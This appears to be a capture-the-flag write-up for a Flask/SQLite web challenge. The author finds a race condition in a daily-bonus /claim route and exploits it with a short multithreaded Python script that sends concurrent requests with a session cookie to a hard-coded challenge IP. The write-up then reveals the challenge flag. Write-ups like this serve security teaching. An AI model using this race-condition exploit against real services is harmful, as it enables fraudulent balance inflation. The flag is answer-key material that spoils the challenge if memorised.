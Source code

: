 ![image](https://github.com/user-attachments/assets/aed90ea8-d1de-4a71-a972-cdef13c48e7c)

## How the app works:
![image](https://github.com/user-attachments/assets/208f501c-21f0-45d4-ac6f-cd03939f0cf3) ![image](https://github.com/user-attachments/assets/b00a16b4-bfd9-4f8e-9f33-a536c6309b4e)

**/register** - New user with 1000 balance. 
**/claim **- +1000 bonus (1 per user). 
**/buy_flag** - Need 3000 balance for flag

## What Actually Happened (My Mistake Story):
Okay so at first  I thought this challenge was something about token or session attack. 
I spent like 5-10 minutes trying to look at the session cookie  maybe it’s something like JWT, or weak secret key, or something I could decode. 
But turns out... 
```
Flask uses os.urandom(16) for app.secret_key
```
which is random and basically impossible to guess unless you control the server. 
My mistake la G I should’ve just read the backend code properly from the start.

## What I Found After Reading the Backend
After checking the source code  I saw something interesting in the /claim route.
```js
cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
row = cur.fetchone()
if row and row['claimed']:
    flash("You have already claimed your daily bonus!", "danger")
    return redirect(url_for('dashboard'))

db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
db.commit()
```
At first glance, I was like looks okay…
But if you search online or check basic references about Race Condition on database 
especially for Flask + SQLite  you’ll find that this pattern can be risky if the database doesn’t have locking mechanism or transaction isolation.
Reference example: https://portswigger.net/web-security/race-conditions
Here’s another way to do this via burp: https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c

## Why This Can Be Exploited?
Since the code checks if claimed=1 first  then only after that it updates the balance and sets claimed=1
there is a small window where I can spam multiple requests fast enough before the server saves claimed=1 to the database.
SQLite doesn’t handle this by default unless you use special locking or transaction isolation which this code doesn’t have.

## Exploit Steps
![image](https://github.com/user-attachments/assets/9a8a59c0-af40-4ced-ae57-3609dd62ba26)

•	Register new account - get 1000 balance.

•	Don’t claim the daily bonus 

•	Spam **/claim** fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

![image](https://github.com/user-attachments/assets/548cf9f5-cbdf-4f72-83bd-3e253a1fb87e)
Here’s the cracker.py :
```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")
```
![image](https://github.com/user-attachments/assets/c81b0931-82d7-4a63-8d45-f8c946108e78)

•	Simply refresh our web and finally, redeem flag at **/buy_flag.**

![image](https://github.com/user-attachments/assets/e8a40c47-8adc-4b48-b733-e158c6f8de4c) ![image](https://github.com/user-attachments/assets/bf280620-443a-4ca8-b9aa-e4cb008bedd7)

•	And here’s the flag!! 
UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}

